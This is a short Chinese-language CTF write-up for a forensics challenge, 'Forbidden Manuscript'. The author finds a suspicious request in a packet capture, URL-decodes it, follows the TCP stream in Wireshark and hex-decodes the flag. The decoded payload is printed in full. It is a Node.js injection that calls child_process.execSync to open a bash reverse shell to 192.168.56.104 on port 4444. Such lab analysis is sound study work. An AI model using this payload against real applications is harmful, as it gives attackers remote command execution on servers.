


# Forbidden Manuscript
## Solution
題目給的是封包 log，粗略看一下可以看到第 103 個封包的 request 參數最奇怪，如下圖。

對參數做 Url decode，發現是一個 reverse shell，使用 port 4444 接收資料
```
exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned
```
再看到 log 裡後面的封包都是跟 4444 有關的，使用 WireShark 的 "Follow TCP Stream" 觀看傳輸的資料，可以看到攻擊者正在 cat flag

將 flag 從 hex 轉回文字就可以得到 flag
